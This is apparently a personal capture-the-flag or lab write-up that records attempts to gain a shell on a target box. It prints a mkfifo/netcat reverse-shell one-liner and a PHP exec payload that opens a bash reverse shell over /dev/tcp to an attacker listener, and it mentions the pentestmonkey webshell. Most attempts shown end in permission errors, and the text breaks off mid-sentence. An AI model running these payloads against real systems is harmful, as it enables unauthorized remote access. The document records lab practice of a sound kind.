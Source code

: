 # First Contact

This time I thought would continue black-boxing from this point:

Enumerate box
```bash
which nc
/usr/bin/nc

which python3
/usr/bin/python3

id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
No socat unfortunately, but hopeful I will hopeful use it later.
Check the tmp directory exists and its contents
![fw-tmp-dir](Screenshots/fw-ls-la-tmp)
Executed a Bash shell, change $IP and $PORT to Kali VM with listener listening:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
chmod +x /tmp/f
/tmp/f
```

![denied1](Screenshots/fw-Shell-denied)

I tried also:
```bash
chmod 777 /tmp/f

nc -lvnp 8080 # only got usage prompt so no execution:
usage: nc [-46DdEFhklNnrStUuvz] [-e policy] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-s source] [-T ToS]
	  [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]
```

The I tried a pentest monkey webshell seeing as it is a website of sorts.

```bash
chmod +x /tmp/monkey.php
/tmp/monkey

/tmp/monkey.php: cannot open ?php: No such file or directory
/tmp/monkey.php: //: Permission denied
/tmp/monkey.php: 3: Syntax error: "(" unexpected
```

Also it uploaded to /tmp, not /var/www/html/. So then I tried:

```php
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ip/$port 0>&1'");?>"
```

![denied2]((Screenshots/fw-phpExecDenied)

Then tried putting the pentest monkey code into the execute php command 